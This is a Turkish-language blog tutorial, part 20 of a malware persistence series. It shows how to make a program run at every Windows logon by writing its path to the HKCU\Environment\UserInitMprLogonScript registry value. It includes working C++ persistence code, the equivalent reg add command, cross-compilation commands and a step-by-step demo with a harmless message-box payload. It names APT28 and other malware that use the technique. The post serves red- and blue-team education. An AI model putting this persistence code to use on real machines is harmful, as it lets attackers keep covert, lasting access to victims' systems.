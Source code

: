 \newpage
\subsection{86. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 20. UserInitMprLogonScript (Oturum Açma Betiği). Basit C++ örneği.}

﷽

![pers](./images/82/2022-12-11_18-11.png){width="80%"}    

Bu gönderi, kötü amaçlı yazılımlarda kalıcılık sağlamak için kullanılabilecek en ilginç yöntemlerden biri olan **`UserInitMprLogonScript` değeri** ile kalıcılık sağlamaya dayanmaktadır.    

### UserInitMprLogonScript

Windows, bir kullanıcı veya bir grup kullanıcı sisteme oturum açtığında oturum açma betiklerinin çalıştırılmasını sağlar. `HKCU\Environment\UserInitMprLogonScript` Kayıt Defteri anahtarına bir betik yolunu eklemek bu işlemi gerçekleştirir. Bu yüzden, kalıcılık oluşturmak için siber saldırganlar, oturum açma sürücü başlatıldığında otomatik olarak çalıştırılan Windows oturum açma betiklerini kullanabilirler.      

### pratik örnek

Haydi pratik bir örneğe bakalım. Öncelikle, her zamanki gibi, "kötü" uygulamamızı oluşturalım. Basitlik açısından, yine `meow-meow` mesaj kutusu uygulamasını kullanıyoruz (`hack.cpp`):  

```cpp
/*
hack.cpp
windows kalıcılık için kötü uygulama
yazar: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Ardından, kalıcılık sağlayan betiği oluşturalım (`pers.cpp`):      

```cpp
/*
pers.cpp
UserInitMprLogonScript değerini ayarlayarak
Windows kalıcılığı

yazar: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // ortam değişkeni
  const char* env = "Environment";

  // kötü amaçlı uygulama
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // ortam ayarları
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, 
  &hkey);
  if (res == ERROR_SUCCESS) {
    // kayıt defteri anahtar değerini güncelle
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t 
    // REG_SZ /d "...\\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Görebildiğiniz gibi, mantık oldukça basit. Sadece `HKCU\Environment` altındaki `UserInitMprLogonScript` anahtar değerini "kötü amaçlı yazılımımızın" tam yolu olan `Z:\\2022-12-09-malware-pers-20\\hack.exe` olarak ayarlıyoruz.     

### demo

Haydi her şeyi adım adım inceleyelim. Öncelikle, Kayıt Defteri'ni kontrol edelim:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_17-57.png){width="80%"}    

Ardından, sıldırgan makinesinde (`kali`) "kötü amaçlı yazılımımızı" derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-54.png){width="80%"}    

Ve doğruluğunu kontrol etmek için `hack.exe`'yi hedef makinede (örneğin benim durumumda `Windows 10 x64`) çalıştıralım:    

```powershell
.\hack.exe
```

![pers](./images/82/2022-12-11_18-00.png){width="80%"}    

Gördüğünüz gibi, "kötü amaçlı yazılımımız" sorunsuz çalışıyor.    

Sonraki adımda, sıldırgan makinesinde kalıcılık betiğini derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-55.png){width="80%"}    

Ve betiği sıldırgan makinesinde çalıştıralım:    

```powershell
.\pers.exe
```

Ardından, Kayıt Defteri anahtar değerlerini tekrar kontrol edelim:    

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_18-06.png){width="80%"}    

Gördüğünüz gibi, `UserInitMprLogonScript` anahtar değeri ayarlandı.    

Bu kadar. Şimdi oturumu kapatıp tekrar açalım:     

![pers](./images/82/2022-12-11_18-07.png){width="80%"}    

![pers](./images/82/2022-12-11_18-07_1.png){width="80%"}    

Ve birkaç milisaniye sonra "kötü amaçlı yazılımımız" (`meow-meow` mesaj kutusu) göründü:     

![pers](./images/82/2022-12-11_18-08.png){width="80%"}    

Ardından, Process Hacker'ı açıp `hack.exe` özelliklerini kontrol edelim:     

![pers](./images/82/2022-12-11_18-09.png){width="80%"}    

![pers](./images/82/2022-12-11_18-10.png){width="80%"}    

Ana sürecin "mevcut olmayan" bir süreç olduğunu görüyoruz.    

Eğer Windows iç mimarisini biraz incelediyseniz, bazı süreçlerin ebeveyn olarak "mevcut olmayan" süreçlere sahip olabileceğini bilirsiniz. Örneğin, Windows Explorer (`explorer.exe`). Ana süreci `userinit.exe` veya `winlogon.exe` olabilir, ancak `explorer.exe` kullanılarak başka herhangi bir `.exe` olabilir. `userinit.exe` kendisini sonlandırdığı için ana süreç "<Non-existent Process>" olarak görünür. Bir başka örnek Windows Oturum Açma (`winlogon.exe`). Ana süreci "mevcut değil" olarak görünür çünkü `smss.exe` kapanmıştır.    

Eğer `hack.exe` özelliklerini [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) ile kontrol edersek, "Autostart Location" değerini görebiliriz:    

![pers](./images/82/2022-12-11_20-05.png){width="80%"}    

Her şey mükemmel çalıştı! =^..^=    

Deney sonunda, anahtarı silin:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

![pers](./images/82/2022-12-19_18-00.png){width="80%"}    

Bu kalıcılık yöntemi, [APT28](https://attack.mitre.org/groups/G0007) grubu ve [Attor](https://attack.mitre.org/software/S0438) ile [Zebrocy](https://attack.mitre.org/software/S0438) gibi yazılımlar tarafından kullanılmıştır.    

Umarım bu gönderi, mavi takım üyelerinin bu teknik hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine bir silah ekler.    

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-12-09-malware-pers-20)     
